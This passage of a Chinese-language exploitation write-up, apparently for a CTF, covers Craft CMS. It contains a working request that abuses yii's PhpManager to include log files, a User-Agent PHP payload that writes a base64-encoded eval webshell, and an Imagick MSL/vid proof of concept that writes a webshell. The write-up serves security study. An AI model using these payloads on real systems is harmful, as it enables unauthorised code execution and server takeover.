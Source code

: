 那么马上就能想到包含日志文件，看到：[Logging | Craft CMS Documentation | 4.x](https://craftcms.com/docs/4.x/logging.html)
![](https://img-blog.csdnimg.cn/08c1ec41c75e479391205648eded981d.png)

在目录`storage/logs/`下存在文件`web-[Y-m-d].log`，按照年月日命名，里面存储了web的请求内容，我们直接包含这个文件即可
```json
action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/craft/storage/logs/web-2023-09-26.log"}]}}
```
User-Agent头传参防止被编码，第一次请求写入，第二次请求包含
![](https://img-blog.csdnimg.cn/506ca101b7614cb1ab29ed43d3055411.png)

由于单双引号会被反斜杠转义，考虑直接使用反引号命令执行
```
User-Agent: <?php `echo PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7Pz4=|base64 -d>shell.php`;?>
```

### Imagick
需要环境：php-imagick
我们可以想到原生类的利用：[任意代码执行下的php原生类利用](https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E4%B8%8B%E7%9A%84php%E5%8E%9F%E7%94%9F%E7%B1%BB%E5%88%A9%E7%94%A8/)

看到 Imagick 类，它的构造函数只有一个参数，可以是字符串或字符串数组
![](https://img-blog.csdnimg.cn/8fd13c86cace4b5f8de876c00a2ead26.png)

一、MSL
MSL全称是Magick Scripting Language，它是一种内置的 ImageMagick 语言，其中存在两个标签`<read>`和`<write>`可以用于读取和写入文件，这个 Trick 的核心就是利用这两个标签写入任意文件Webshell
[https://imagemagick.org/script/conjure.php#msl](https://imagemagick.org/script/conjure.php#msl)

二、vid协议
ImageMagick中有一个协议vid：[https://github.com/ImageMagick/ImageMagick/blob/d2a918098878bd73a57a34b901b5ae85c0c8d17f/coders/vid.c#L98](https://github.com/ImageMagick/ImageMagick/blob/d2a918098878bd73a57a34b901b5ae85c0c8d17f/coders/vid.c#L98)，会调用 ExpandFilenames 函数
![](https://img-blog.csdnimg.cn/13f2cf958ff74fb5b59a8f767771682b.png)

可以用于包裹其他协议或者文件名，其增加了对 glob 通配符的支持，这样我们就可以通过`*`的方式来包含一些我们不知道完整文件名的文件

即使用`new Imagick('vid:msl:/tmp/php*');`让 Imagick 加载并解析 PHP 上传的临时文件

三、漏洞利用
1. `<read>`标签可以读取一个图片，图片可以来自于远程http，也可以来自于本地
2. `<write>`标签可以将前面获取的图片写入到另一个位置，而且文件名可控
3. `<comment>`标签可以给生成的图片加注释，所以我们将Webshell编码后放在这个标签里即可

一种方法就是利用本地图片，POC：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/usr/share/doc/ImageMagick-7/www/wand.png"/>
<comment>HTML实体编码后的Webshell</comment>
<write filename="shell.php" />
</image>
```
还有一种方法就是使用`caption:`和`info:`协议
